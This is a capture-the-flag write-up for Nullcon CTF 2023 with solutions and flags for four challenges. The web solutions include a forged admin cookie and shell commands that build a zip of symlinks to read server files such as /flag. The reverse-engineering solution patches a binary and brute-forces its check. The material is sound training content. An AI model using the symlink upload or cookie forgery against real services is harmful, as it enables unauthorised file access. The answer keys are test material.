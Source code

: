 # Nullcon CTF 2023

62nd place of 433, 498 points

## Challenges

### WEB

#### reguest

Manually set the following two cookies:

```
Cookie: role=admin;really=yes
```

ENO{R3Qu3sts_4r3_s0m3T1m3s_we1rd_dont_get_confused}

#### zpr

You can send a zipfile to a POST endpoint and it will unzip the contents for you and make them publically available. The solution is to sneak in a symlink.

```
$ ln -s ./flag         flag1
$ ln -s /tmp/data/flag flag2
$ ln -s /app/flag      flag3
$ ln -s /flag          flag4
$
$ zip payload.zip flag1 flag2 flag3 flag4 --symlinks
```

The flag `--symlinks` is required for symlinks to not be ignored while deflating.

Upload the zipfile and click on the link for flag4. It will download a file with the flag contents.

ENO{Z1pF1L3s_C4N_B3_Dangerous_so_b3_c4r3ful!}

### REV

#### wheel

TL;DR: We patched the binary to SEGFAULT when a correct character passes the continuation check. Then we brute forced ever single character. We also patched the binary after each successful character brute force to load the comparison data at an offset of iteration*4.

We get a binary that justs prints "Definitely not." when you execute it.

```bash
$ ./wheel
Definitely not.
```

Time to investigate. We found `main` at 0x1140 by debugging and stepping over the `__libc_start_main` call at 0x132b.

In `main` we found some checks. It checks that you provide exactly 2 arguments to the executable. Otherwise it just outputs "Definitely not."

```asm
0x0000114e  mov     dword [var_1ch], edi
0x00001152  cmp     edi, 2               
0x00001155  jne     0x12e8
```

We call the executable with the following argument:

```bash
$ ./wheel ABC
Nah.
```

After that there is a `strlen` call with an expected length of 27. So our input has to be of length 27. Otherwise it just outputs "Nah."

```asm
0x0000115b  mov     r13, qword [rsi + 8]
0x0000115f  mov     rdi, r13
0x00001162  call    strlen
0x00001167  cmp     rax, 0x1b  ; 27 decimal
0x0000116b  jne     0x12c1
```

We call the executable with the following argument:

```bash
$ ./wheel 11111111222222223333333
Nope.
```

Now it prints "Nope." instead of "Nah.". Progress!

At 0x1291 you can find a comparision that is called 27 times. If one comparison fails it prints "Nope.". Otherwise it continues to compare where `rax` points to with an offset increase of 4.

```asm
0x00001283  nop
0x00001284  nop
0x00001285  nop
0x00001286  nop
0x00001287  nop
0x00001288  add     rax, 4
0x0000128c  cmp     rax, rdx
0x0000128f  je      0x12d4
0x00001291  ucomiss xmm0, dword [rax]
0x00001294  jp      0x1298
0x00001296  je      0x1283
0x00001298  lea     rdi, str.Nope
0x0000129f  call    puts     
```

At 0x40a4 you can find 27 4-byte values. The program compares these values with the modified user input values. We don't know how the program modifies our user input, but at least we know what data is expected at compare time.


At 0x1271 you'll find the `lea` instruction to load the start of the compare data into `rax`.

```asm
0x00001271  lea     rax, [0x000040a4]
```

Well, we decided to patch the binary to SEGFAULT when a correct character appears. We can do that by patching the jump instruction right after the comparison to jump into nirvana. We then wrote a PHP script to patch the address of the data address to be at (0x40a4 - iteration*4).

```asm
0x00001283  nop
0x00001284  nop
0x00001285  nop
0x00001286  nop
0x00001287  nop
0x00001288  add     rax, 4
0x0000128c  cmp     rax, rdx
0x0000128f  je      0x12d4
0x00001291  ucomiss xmm0, dword [rax]
0x00001294  jp      0x1298             ; <- patched "jp" to "je"
                                       ;    patched 0x1298 to 0x9999
                                       ;    also jumps into forbidden
                                       ;    memory section -> SEGFAULT
0x00001296  je      0x1283
0x00001298  lea     rdi, str.Nope
0x0000129f  call    puts     
```

```php
<?php

function patchBinary($offset) {
    $contents = file_get_contents('wheel');
    $contents[0x1274 + 0] = pack('C', 0x28 + ($offset * 4));
    $contents[0x1274 + 1] = pack('C', 0x2e);
    file_put_contents('wheel_patched', $contents);
}

function force($offset, $string) {
    patchBinary($offset);

    $output = array();
    exec('./wheel_patched ' . $string . '', $output);

    // Output  > 0 means it executed normally
    // Output == 0 means it SEGFAULTed
    if (count($output) === 0) {
       return true; 
    }

    return false;
}

$language = 'abcdefghijklmnopqrstuvxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}[]!.';
$result = '111111111111111111111111111';

for ($i = 0; $i < strlen($result); $i++) {
    for ($j = 0; $j < strlen($language); $j++) {
        $result[$i] = $language[$j];
        if (force($i, $result)) {
            echo $result . PHP_EOL;
            break;
        }
    }
}
```

Outputs:
```
E11111111111111111111111111
EN1111111111111111111111111
ENO111111111111111111111111
ENO{11111111111111111111111
ENO{f1111111111111111111111
ENO{fl111111111111111111111
ENO{fl011111111111111111111
ENO{fl0a1111111111111111111
ENO{fl0a7111111111111111111
ENO{fl0a7s11111111111111111
ENO{fl0a7s_1111111111111111
ENO{fl0a7s_c111111111111111
ENO{fl0a7s_c411111111111111
ENO{fl0a7s_c4n1111111111111
ENO{fl0a7s_c4n_111111111111
ENO{fl0a7s_c4n_b11111111111
ENO{fl0a7s_c4n_b31111111111
ENO{fl0a7s_c4n_b3_111111111
ENO{fl0a7s_c4n_b3_111111111
ENO{fl0a7s_c4n_b3_1n1111111
ENO{fl0a7s_c4n_b3_1nt111111
ENO{fl0a7s_c4n_b3_1nts11111
ENO{fl0a7s_c4n_b3_1nts_1111
ENO{fl0a7s_c4n_b3_1nts_t111
ENO{fl0a7s_c4n_b3_1nts_t011
ENO{fl0a7s_c4n_b3_1nts_t0o1
ENO{fl0a7s_c4n_b3_1nts_t0o}
```

ENO{fl0a7s_c4n_b3_1nts_t0o}

#### Pythopia

Just read the ast. You can find all the strings and operations in there.

```
key1: ENO{L13333333333 (each letter checked in separate if-clause)
key2: 7_super_duper_ok (from decimal, xor with 19)
key3: _!ftcnocllunlol_ (string)
key4: you_solved_it!!} (string)

```

ENO{L133333333337_super_duper_ok_!ftcnocllunlol_you_solved_it!!}
